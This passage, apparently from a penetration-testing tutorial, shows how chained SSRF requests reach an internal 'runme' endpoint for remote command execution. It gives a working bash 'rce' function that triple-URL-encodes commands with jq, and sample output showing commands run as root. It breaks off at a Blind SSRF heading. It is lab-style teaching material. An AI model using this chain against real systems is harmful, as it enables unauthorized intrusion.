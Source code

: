 ```
<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=whoami</h1><a>root
 </a></body></html>
```
#### Execute commands with arguments
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=uname -a"
```
Unable to do so
### Enable URL encoding. This will require encoding three times.
#### Install JQ
```Shell
apt-get install jq
```
#### Encode a string with JQ to test for URL encoding
```Shell
echo "encode me" | jq -sRr @uri
```
#### Create a bash function to automate executing commands on the target application
```Shell
function rce() {
while true; do
echo -n "# "; read cmd
ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
echo ""
done
}
```
#### Call the function and execute commands
```Shell
rce
# uname -a; hostname; whoami
```
Output:
```
<html><body><h1>Resource: http://127.0.0.1:5000/runme?x=uname%20-a%3B%20hostname%3B%20whoami
</h1><a>Linux a054d48cc0a4 5.8.0-63-generic #71-Ubuntu SMP Tue Jul 13 15:59:12 UTC 2021 x86_64 GNU/Linux
a054d48cc0a4
root
 </a></body></html>
```
## Blind SSRF
To detect if a backend service is processing our requests, we can either use a server with a public IP address that we own or services such as:
